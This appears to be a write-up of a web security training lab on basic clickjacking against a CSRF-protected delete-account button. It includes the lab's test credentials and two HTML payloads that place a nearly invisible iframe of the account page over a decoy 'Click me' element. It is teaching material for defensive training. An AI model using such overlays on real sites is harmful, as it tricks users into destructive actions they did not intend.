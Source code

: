 # Basic clickjacking with CSRF token protection
# Objective
This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Testing payload

```html
<body>
	<style>
    iframe {
        position:relative;
        width: 1000;
        height: 600;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:510;
        left:60;
        z-index: 1;
    }
    </style>

    <div>Test me</div>
    <iframe src="https://0ace004a03c816d98106d4cc00cb00fc.web-security-academy.net/my-account?"></iframe>
</body>
```
|![](Images/image-1.png)|
|:--:| 
| *Target - Delete account button* |
|![](Images/image.png)|
| *Overlayed websites - testing aligment and position of the "Test me" text* |

## Exploitation
In order to solve the lab the following steps must be completed:
- Create payload aligning the `<div>` (with text `Click me`) with delete acount button.
- `Store` the payload
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

Final exploit:
```html
<body>
	<style>
    iframe {
        position:relative;
        width: 1000;
        height: 600;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:510;
        left:60;
        z-index: 1;
    }
    </style>

    <div>Click me</div>
    <iframe src="https://0ace004a03c816d98106d4cc00cb00fc.web-security-academy.net/my-account"></iframe>
</body>
```
